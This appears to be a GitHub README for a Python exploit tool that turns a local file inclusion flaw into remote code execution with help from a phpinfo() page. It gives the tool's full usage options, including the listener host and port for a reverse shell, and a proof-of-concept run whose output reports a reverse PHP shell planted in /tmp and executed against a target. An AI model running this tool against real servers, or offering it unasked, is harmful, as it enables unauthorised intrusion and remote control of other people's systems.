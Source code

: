 # LFI to RCE via phpinfo()
For more details about this exploit, research from [here](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)

# Use case

- Found an LFI Vulnerability
- Any script that displays the output of the PHPInfo() function will do. In most cases this will be /phpinfo.php 


# Usage 

```
usage: phpinfolfi_rce.py [-h] -l LFI [-t THREADS] --lhost LHOST --lport LPORT
                         -i PHPINFO [--payload PTYPE] [-e REQEND] [-v VERBOSE]

RCE from LFI with PHPINFO assistance

optional arguments:
  -h, --help            show this help message and exit
  -l LFI, --lfi LFI     the url path of the LFI vuln, per example
                        "http://127.0.0.1:8080/lfi.php?file="
  -t THREADS, --threads THREADS
                        Threads number, set to 10 by default
  --lhost LHOST         The local ip to listen, for rev shell
  --lport LPORT         The local port to listen, for rev shell
  -i PHPINFO, --phpinfo PHPINFO
                        Define the url path of the "phpinfo" script. Per ex:
                        "http://host/phpinfo.php"
  --payload PTYPE       Set the type of payload to use. 1|2|3 By default
                        payload is set to 3
  -e REQEND, --end REQEND
                        Define any end of lfi request, per examlpe "%00" by
                        default the end request is empty
  -v VERBOSE, --verbose VERBOSE
                        Define verbose output. set to False by default
```


# POC

```
$ python phpinfolfi_rce.py -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001  -t 12  -i "http://host:8080/phpinfo.php"

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI With PHPInfo() RCE script
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Spawning worker pool (12)...
  24 /  1000
Got it! Reverse php Shell created in /tmp/IVA1XpPtHGjS.php

Yep! The payload works great !

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/IVA1XpPtHGjS.php

Verify your nc listenner 127.0.0.1:9001
Shuttin' down...

```

### Nota 

Install the pyfiglet python module like :

```
$ sudo pip install pyfiglet
```

